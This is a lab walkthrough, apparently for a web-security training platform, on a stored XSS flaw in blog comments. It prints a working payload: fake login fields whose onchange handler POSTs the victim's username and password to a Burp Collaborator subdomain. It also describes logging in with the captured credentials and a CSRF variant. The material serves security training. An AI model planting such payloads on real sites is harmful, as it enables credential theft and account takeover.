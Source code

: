 # Lab 5: Exploiting cross-site scripting to capture passwords

## 📝 Lab Overview

This lab features a **stored cross-site scripting (XSS)** vulnerability in the blog comment function. A simulated victim user **automatically views** all posted comments, providing an opportunity to run a malicious script that captures their **login credentials**.

---

## ⚠️ Important Notes

- 🛡️ The lab platform **blocks outgoing requests** to arbitrary domains — use only **Burp Collaborator's default public server**.
- 💡 A **less subtle alternative** method involving CSRF exists, but it's discouraged due to evidence exposure.

---

## 🛠️ Solution Steps

### 🔗 1. Get Your Burp Collaborator Subdomain

- Open **Burp Suite Professional**
- Go to the **Collaborator** tab
- Click **"Copy to clipboard"** to copy your unique **subdomain**

---

### 💬 2. Submit the XSS Payload in a Blog Comment

Post the following **HTML+JS payload** in the blog comment field (replace `BURP-COLLABORATOR-SUBDOMAIN` with your actual subdomain):

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
  method:'POST',
  mode: 'no-cors',
  body:username.value+':'+this.value
});">

```

🧠 **How it works:**

- Adds fake login fields.
- When the victim types a password, the `onchange` event triggers.
- The credentials are **POSTed** silently to your Burp Collaborator subdomain.

---

### 📡 3. Capture the Credentials

- Go back to **Burp Collaborator**
- Click **"Poll now"**
- You should see an **HTTP interaction**
- Copy the **username and password** from the request `body`

---

### 🔐 4. Log In as the Victim

- Use the **captured credentials** to log in through the lab’s login form
- 🎯 If successful, the lab is **solved**

---

## 🚧 Alternative (Less Recommended)

You could modify the attack to use **CSRF** to publicly submit the victim's credentials in a comment.

⚠️ **Drawbacks:**

- Credentials are exposed in public
- Leaves **forensic evidence** of the attack

---

## 🎥 Community Solution

📺 [Watch on YouTube](https://youtu.be/I6TOtXSOZ90)